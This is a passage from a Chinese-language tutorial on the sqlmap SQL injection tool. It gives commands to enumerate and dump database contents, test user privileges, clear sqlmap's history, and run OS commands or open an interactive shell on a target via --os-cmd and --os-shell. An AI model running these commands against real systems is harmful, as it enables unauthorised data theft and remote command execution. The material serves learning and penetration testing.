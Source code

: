 ```

###### ③查看当前数据库

* sqlmap -u "带参数网址" --current-db

###### ④查看表名

* sqlmap -u "带参数网址" -D [数据库名] --tables

###### ⑤列出所有字段名

* sqlmap -u "带参数网址" -D [数据库名] -T [表名] --columns

###### ⑥列出字段内容

* sqlmap -u "带参数网址" -D [数据库名] -T [表名] -C [列名...] --dump

##### b. 历史记录

###### ①Windows

* C:\Users\26254\AppData\Local\sqlmap

###### ②Linux

* /home/test/.sqlmap
* /root/.sqlmap

###### ③清除

1. python sqlmap.py --purge
2. 删除sqlmap的output文件夹
3. python sqlmap.py --flush-session

#### (3). 常用参数

##### a. --privileges

* 测试注入点权限

###### ①用法

```
sqlmap -u [URL] --privileges  //测试所有用户的权限
sqlmap -u [URL] --privileges -U [用户名] //测试指定用户权限
```

###### ②注意

1. 若目标是MSSql数据库，只会列出用户是否是管理员
2. 通过用户权限可以判断出**管理员用户**

##### b. -os-cmd/-os-shell

* 执行shell命令

###### ①用法

```
sqlmap -u [URL] --os-cmd="net user"	//执行net user命令
sqlmap -u [URL] --os-shell		//系统交互式的shell
```

###### ②注意
```